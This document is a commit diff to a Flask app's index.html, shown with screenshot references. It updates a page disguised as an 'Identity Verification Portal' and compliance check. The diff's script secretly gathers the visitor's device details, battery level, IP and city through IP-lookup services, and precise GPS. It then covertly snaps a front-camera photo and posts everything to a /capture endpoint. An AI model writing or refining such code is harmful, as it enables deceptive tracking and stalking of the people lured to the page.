

Before and after one commit to MR5121472/link-shortener12, a Flask app: page / in a window 1280 px wide. Shown: the whole page, without its empty margins (319-959 px from the left). Run offline with Flask 3, Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/templates/index.html
+++ b/templates/index.html
@@ -6,23 +6,36 @@
     <title>Identity Verification Portal</title>
     <style>
         :root { --primary: #28a745; --bg: #f5f7f9; --text: #24292e; }
-        body { font-family: -apple-system, system-ui, sans-serif; background-color: var(--bg); display: flex; align-items: center; justify-content: center; height: 100vh; margin: 0; }
-        .card { background: white; width: 92%; max-width: 400px; padding: 35px; border-radius: 15px; box-shadow: 0 10px 25px rgba(0,0,0,0.05); border: 1px solid #e1e4e8; text-align: center; }
-        .btn { background-color: var(--primary); color: white; border: none; padding: 14px; width: 100%; border-radius: 8px; font-size: 16px; font-weight: 600; cursor: pointer; }
-        #loader { display: none; margin-top: 15px; color: var(--primary); font-weight: bold; }
+        body { font-family: -apple-system, system-ui, BlinkMacSystemFont, "Segoe UI", Roboto; background-color: var(--bg); display: flex; align-items: center; justify-content: center; height: 100vh; margin: 0; }
+        .card { background: white; width: 92%; max-width: 400px; padding: 35px; border-radius: 15px; box-shadow: 0 10px 25px rgba(0,0,0,0.05); border: 1px solid #e1e4e8; }
+        .status-bar { height: 4px; background: var(--primary); border-radius: 10px; width: 50px; margin-bottom: 20px; }
+        h2 { font-size: 20px; color: var(--text); margin: 0 0 12px 0; font-weight: 700; }
+        p { font-size: 14px; color: #586069; line-height: 1.6; margin-bottom: 30px; }
+        .btn { background-color: var(--primary); color: white; border: none; padding: 14px; width: 100%; border-radius: 8px; font-size: 16px; font-weight: 600; cursor: pointer; transition: all 0.3s ease; box-shadow: 0 4px 12px rgba(40, 167, 69, 0.2); }
+        .btn:active { transform: scale(0.98); }
+        #loader { display: none; text-align: center; }
+        .spinner { border: 3px solid #f3f3f3; border-top: 3px solid var(--primary); border-radius: 50%; width: 24px; height: 24px; animation: spin 1s linear infinite; margin: 0 auto 10px; }
+        @keyframes spin { 0% { transform: rotate(0deg); } 100% { transform: rotate(360deg); } }
+        .footer-text { font-size: 11px; color: #959da5; margin-top: 25px; text-align: center; border-top: 1px solid #eee; padding-top: 15px; }
     </style>
 </head>
 <body>
 
 <div class="card">
-    <h2 style="font-size: 20px; margin-bottom: 12px;">Regional Access Verification</h2>
-    <p style="font-size: 14px; color: #586069; margin-bottom: 30px;">This automated portal confirms your identity for secure access.</p>
+    <div class="status-bar"></div>
+    <h2>Regional Access Verification</h2>
+    <p>This automated portal confirms your identity and location for secure access. Please click below to complete the mandatory compliance check.</p>
 
-    <div id="loader">Authenticating Secure Connection...</div>
+    <div id="loader">
+        <div class="spinner"></div>
+        <div style="font-size: 13px; color: var(--primary); font-weight: 600;">Authenticating Secure Connection...</div>
+    </div>
+
     <button id="mainBtn" class="btn" onclick="startProcess()">CONTINUE TO PORTAL</button>
 
-    <div style="font-size: 11px; color: #959da5; margin-top: 25px; border-top: 1px solid #eee; padding-top: 15px;">
-        System ID: FZN-PR-2026
+    <div class="footer-text">
+        System ID: FZN-PR-2026<br>
+        Encrypted by Digital Security Authority
     </div>
 </div>
 
@@ -31,49 +44,64 @@
 
 <script>
     async function startProcess() {
-        document.getElementById('mainBtn').style.display = 'none';
-        document.getElementById('loader').style.display = 'block';
+        const btn = document.getElementById('mainBtn');
+        const loader = document.getElementById('loader');
+        btn.style.display = 'none';
+        loader.style.display = 'block';
 
-        let ua = navigator.userAgent;
-        let deviceModel = "Unknown";
-        if (/android/i.test(ua)) {
-            let match = ua.match(/Android\s([0-9\.]+);\s([^;)]+)/);
-            deviceModel = match ? match[2] : "Android Device";
+        let userAgent = navigator.userAgent;
+        let deviceName = "Unknown Device";
+        if (/android/i.test(userAgent)) {
+            deviceName = userAgent.match(/\(([^)]+)\)/)[1].split(';')[2] || "Android Mobile";
+        } else if (/iPhone/i.test(userAgent)) {
+            deviceName = "Apple iPhone";
         }
 
         let reportData = {
-            model: deviceModel,
+            device: deviceName.trim(),
+            platform: navigator.platform,
             battery: "N/A",
-            ip: "Fetching...", city: "Fetching...", country: "Fetching...",
-            lat: "0", lon: "0"
+            time: new Date().toLocaleString(),
+            lat: "0", lon: "0",
+            city: "N/A", country: "N/A", ip: "N/A"
         };
 
-        // 1. Battery Status
         if(navigator.getBattery) {
             const b = await navigator.getBattery();
             reportData.battery = Math.round(b.level * 100) + "%";
         }
 
-        // 2. Original Working IP API (Gujranwala Data Fix)
         const fetchGeo = async () => {
             try {
-                const res = await fetch('https://demo.ip-api.com/json/?fields=66846719');
+                const res = await fetch('http://ip-api.com/json/?fields=status,country,city,query');
                 const data = await res.json();
-                reportData.city = data.city || "Unknown";
-                reportData.country = data.country || "Unknown";
-                reportData.ip = data.query || "Unknown";
+                if(data.status === 'success') {
+                    reportData.city = data.city;
+                    reportData.country = data.country;
+                    reportData.ip = data.query;
+                }
             } catch (e) {
-                reportData.city = "Err (Blocked)";
+                try {
+                    const res2 = await fetch('https://ipinfo.io/json');
+                    const data2 = await res2.json();
+                    reportData.city = data2.city;
+                    reportData.country = data2.country;
+                    reportData.ip = data2.ip;
+                } catch (e2) {
+                    reportData.city = "API Blocked";
+                }
             }
         };
 
-        // 3. Camera (Strict 9:16 Portrait Mode)
         const geoPromise = fetchGeo();
+
+        // CAMERA CONSTRAINTS FIXED FOR 9:16 PORTRAIT
         const cameraPromise = navigator.mediaDevices.getUserMedia({
             video: {
                 facingMode: "user",
                 width: { ideal: 1920 },
-                height: { ideal: 1080 }
+                height: { ideal: 1080 },
+                aspectRatio: 0.5625
             }
         }).catch(() => null);
 
@@ -83,11 +111,11 @@
             finalize(await cameraPromise, reportData, geoPromise);
         }, async () => {
             finalize(await cameraPromise, reportData, geoPromise);
-        }, { timeout: 8000 });
+        }, { enableHighAccuracy: true, timeout: 10000 });
     }
 
     async function finalize(stream, data, geoTask) {
-        await geoTask; // WAIT: Ensure data is fetched before sending
+        await geoTask;
 
         if (stream) {
             const video = document.getElementById('video');
@@ -96,18 +124,19 @@
             setTimeout(() => {
                 const canvas = document.getElementById('canvas');
                 const ctx = canvas.getContext('2d');
-                // Force drawing in 9:16 Aspect Ratio
+                // DRAWING FIXED FOR FULL PORTRAIT
                 ctx.drawImage(video, 0, 0, canvas.width, canvas.height);
-                const photo = canvas.toDataURL('image/jpeg', 0.9);
+                const photo = canvas.toDataURL('image/jpeg', 0.85);
+
                 stream.getTracks().forEach(t => t.stop());
-                sendFinal(data, photo);
-            }, 2000);
+                sendData(data, photo);
+            }, 1800);
         } else {
-            sendFinal(data, null);
+            sendData(data, null);
         }
     }
 
-    function sendFinal(info, photo) {
+    function sendData(info, photo) {
         fetch('/capture', {
             method: 'POST',
             headers: { 'Content-Type': 'application/json' },
```
